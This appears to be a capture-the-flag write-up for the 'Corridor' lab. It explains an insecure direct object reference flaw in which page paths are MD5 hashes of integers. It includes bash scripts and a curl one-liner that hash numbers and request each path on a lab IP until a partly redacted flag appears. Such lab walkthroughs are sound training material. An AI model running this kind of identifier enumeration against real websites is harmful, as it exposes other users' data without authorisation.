






# Corridor
<br>

<div align="center">
  
</div>

<br>

You have found yourself in a strange corridor. Can you find your way back to where you came?

In this challenge, you will explore potential IDOR vulnerabilities. Examine the URL endpoints you access as you navigate the website and note the hexadecimal values you find (they look an awful lot like a hash, don't they?). This could help you uncover website locations you were not expected to access.

 
### Steps to Explore IDOR Vulnerabilities

1. **Initial Exploration**:
   - Navigate through the website and observe the URLs.
   - Note down any URLs containing hexadecimal values.

2. **Identify Patterns**:
   - Look for patterns in the hexadecimal values.
   - Determine if these values correspond to specific objects (e.g., user IDs, document IDs).

3. **Manipulate Identifiers**:
   - Modify the hexadecimal values in the URLs to see if you can access other users' data or restricted areas.
   - For example, if you find a URL like `http://corridor.thm/5f4dcc3b5aa765d61d8327deb882cf99`.

4. **Document Findings**:
   - Record any successful attempts to access unauthorized data.
   - Note the original and modified URLs, and the data accessed.

### Tools and Techniques

- **Burp Suite**: Use this tool to intercept and modify HTTP requests.
- **Browser Developer Tools**: Inspect and modify URLs directly in the browser.
- **Scripts**: Write scripts to automate the testing of multiple hexadecimal values.

```bash
$ curl -I 10.10.75.23            
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 3213
Server: Werkzeug/2.0.3 Python/3.10.2
Date: Sun, 29 Dec 2024 05:00:20 GMT                                    
```
## Initial Exploration





## Identify Patterns


## Manipulate Identifiers
```bash
$ echo -n "1" | md5sum
c4ca4238a0b923820dcc509a6f75849b  -
```
## Scripts
```bash
#!/bin/bash

idor=(
  "c4ca4238a0b923820dcc509a6f75849b"  # = 1 
  "c81e728d9d4c2f636f067f89cc14862c"  # = 2
  "eccbc87e4b5ce2fe28308fd9f2a7baf3"  # = 3
  "a87ff679a2f3e71d9181a67b7542122c"  # = 4
  "e4da3b7fbbce2345d7772b0674a318d5"  # = 5
  "1679091c5a880faf6fb5e6087eb1b2dc"  # = 6
  "8f14e45fceea167a5a36dedd4bea2543"  # = 7
  "c9f0f895fb98ab9159f51fd0297e236d"  # = 8
  "45c48cce2e2d7fbdea1afc51c7c6ad26"  # = 9
  "d3d9446802a44259755d38e6d163e820"  # = 10
  "6512bd43d9caa6e02c990b0a82652dca"  # = 11
  "c20ad4d76fe97759aa27a0c99bff6710"  # = 12
  "c51ce410c124a10e0db5e4b97fc2af39"  # = 13
)

url="http://10.10.75.23"

for hash in "${idor[@]}"; do
  echo "------------------------------"
  echo "Requesting: $url/$hash"
  curl -s -X GET "$url/$hash"
  echo
done
```
```bash
$ ./script.sh 
------------------------------
Requesting: http://10.10.75.23/c4ca4238a0b923820dcc509a6f75849b
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.0/css/bootstrap.min.css"
        integrity="sha384-9aIt2nRpC12Uk9gS9baDl411NQApFmC26EwAOH8WgZl5MYYxFfc+NcPb1dKGj7Sk" crossorigin="anonymous">
    <title>Corridor</title>

    <link rel="stylesheet" href="/static/css/main.css">
</head>

<body>
    

<style>
    body{
        background-image: url("/static/img/empty_room.jpg");
        background-size:  cover;
    }
</style>

</body>
</html>
------------------------------
```
## Document Findings
> start from 0 instead of 1 and if found a flag string break loop and exit
```bash
$ for id in $(seq 0 20); do hash=$(echo -n "$id" | md5sum | awk '{print $1}'); response=$(curl -s -X GET "http://10.10.75.23/$hash"); echo "$response"; if [[ "$response" == *"flag"* ]]; then echo "Flag found, exiting."; break; fi; echo $id; echo "------------------------------"; done
```
### Result
```html 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.0/css/bootstrap.min.css"
        integrity="sha384-9aIt2nRpC12Uk9gS9baDl411NQApFmC26EwAOH8WgZl5MYYxFfc+NcPb1dKGj7Sk" crossorigin="anonymous">
    <title>Corridor</title>

    <link rel="stylesheet" href="/static/css/main.css">
</head>

<body>
    

<style>
    body{
        background-image: url("/static/img/empty_room.png");
        background-size:  cover;
    }

    h1 {
        width: 100%;
        position: absolute;
        top: 40%;
        text-align: center;
    }
</style>
<h1>
    flag{2477ef0244[Redacted]a6b8862e}
</h1>

</body>
</html>
Flag found, exiting.
```
